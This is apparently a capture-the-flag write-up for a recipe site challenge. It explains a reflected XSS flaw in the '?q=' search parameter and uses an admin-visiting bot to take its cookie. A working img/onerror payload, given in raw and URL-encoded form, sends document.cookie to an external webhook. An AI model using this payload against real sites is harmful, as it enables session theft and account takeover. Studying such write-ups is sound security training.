

# RecipeBox — XSS + Cookie Stealing

## Overview

The application is a recipe browsing website with two key features:
- A **search bar** that filters recipes via a `?q=` URL parameter
- A **"Send to Nonna"** report form where a bot (with admin cookies) visits any submitted URL

---

## Vulnerability

The search parameter `q` is reflected **unsanitized** into `innerHTML`:

```javascript
status.innerHTML = 'Showing results for: <em>' + query + '</em>';
```

This allows **Reflected XSS** via the `?q=` URL parameter.

---

## Exploit

Crafted a malicious URL pointing to the challenge host, with an XSS payload in `?q=` that exfiltrates `document.cookie` to an external webhook:

```
https://<host>/?q=/?c='+document.cookie)">
```

URL-encoded version submitted to the report field:

```
https://<host>/?q=%3Cimg+src%3Dx+onerror%3D%22fetch%28%27https%3A%2F%2Fwebhook.site%2F<token>%2F%3Fc%3D%27%2Bdocument.cookie%29%22%3E
```

The bot visited the URL, the XSS fired in its browser context, and the admin cookie was exfiltrated to the webhook as a query parameter.

---

## Result

This is what is shown by the webhook:

